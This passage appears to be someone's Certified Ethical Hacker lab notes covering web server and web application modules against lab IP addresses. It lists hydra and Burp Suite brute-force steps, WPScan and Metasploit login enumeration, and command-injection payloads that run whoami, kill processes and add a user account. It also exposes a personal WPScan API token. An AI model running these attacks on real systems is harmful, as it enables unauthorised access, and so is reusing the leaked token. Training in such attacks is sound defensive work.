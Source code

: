         NetBIOS UDP Port 137,138,139
        NTP UDP Port 123
        Quake Network Protocol UDP Port 26000
        VoIP UDP Port 5060

### Module 13: Hacking Web Servers
    Lab2-Task1: Crack FTP Credentials using a Dictionary Attack
    nmap -p 21 [IP]
    hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10

### Module 14: Hacking Web Applications
    Lab2-Task1: Perform a Brute-force Attack using Burp Suite
    Set proxy for browser: 127.0.0.1:8080
    Burpsuite
    Type random credentials
    capture the request, right click-&gt;send to Intrucder
    Intruder-&gt;Positions
    Clear $
    Attack type: Cluster bomb
    select account and password value, Add $
    Payloads: Load wordlist file for set 1 and set 2
    start attack
    filter status==302
    open the raw, get the credentials
    recover proxy settings
    Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications
    Log in a website, change the parameter value (id )in the URL
    Conduct a XSS attack: Submit script codes via text area
    Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit
    wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u
        --enumerate u: Specify the enumeration of users
        API Token: Register at https://wpscan.com/register
        Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
    service postgresql start
    msfconsole
    use auxiliary/scanner/http/wordpress_login_enum
    show options
    set PASS_FILE password.txt
    set RHOST 10.10.10.16
    set RPORT 8080
    set TARGETURI http://10.10.10.16:8080/CEH
    set USERNAME admin
    run
    Find the credential
    Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)
    If found command injection vulnerability in an input textfield
    | hostname
    | whoami
    | tasklist| Taskkill /PID /F
        /PID: Process ID value od the process
        /F: Forcefully terminate the process
    | dir C:\
    | net user
    | net user user001 /Add
    | net user user001